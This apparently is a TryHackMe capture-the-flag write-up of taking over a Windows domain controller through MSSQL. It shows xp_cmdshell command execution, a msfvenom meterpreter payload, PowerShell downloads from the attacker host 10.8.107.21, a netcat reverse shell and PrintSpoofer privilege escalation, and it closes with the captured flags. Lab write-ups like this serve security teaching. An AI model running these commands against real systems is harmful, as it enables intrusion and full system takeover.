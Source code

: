 python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py SVC-Kerb@$IP

And we are in mssql. Let's try and see if we can run system commands.

EXEC xp_cmdshell 'dir c:' => And it works!! Let's create a directory and put a msfvenom payload there!

## Payload => msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.107.21 LPORT=1234 -f exe > exploit.exe

# Steps

1. EXEC xp_cmdshell 'mkdir C:\priv'
2. EXEC xp_cmdshell 'powershell.exe -c curl http://10.8.107.21:8000/exploit.exe -o C:\priv\exploit.exe'
3. EXEC xp_cmdshell 'C:\priv\exploit.exe'

For some reason it didn't work, so let's transfer nc to the target machine. We got a shell!!

1. EXEC xp_cmdshell 'powershell.exe -c curl http://10.8.107.21:8000/nc.exe -o C:\priv\nc.exe'
2. EXEC xp_cmdshell 'c:\priv\nc.exe -e cmd 10.8.107.21 1234'

Let's check out out privileges.

whoami /priv

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled  => OOh!! Printer Spoofer privilege
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

EXEC xp_cmdshell 'powershell.exe -c curl http://10.8.107.21:8000/PrintSpoofer64.exe -o C:\priv\PrintSpoofer64.exe'
PrintSpoofer64.exe -c cmd -i

And we are in as `dc01\dc$`.

# users.txt

```
THM{MSSQL_IS_COOL}
```

# root.txt

```
THM{I_L1kE_gPoS}
```
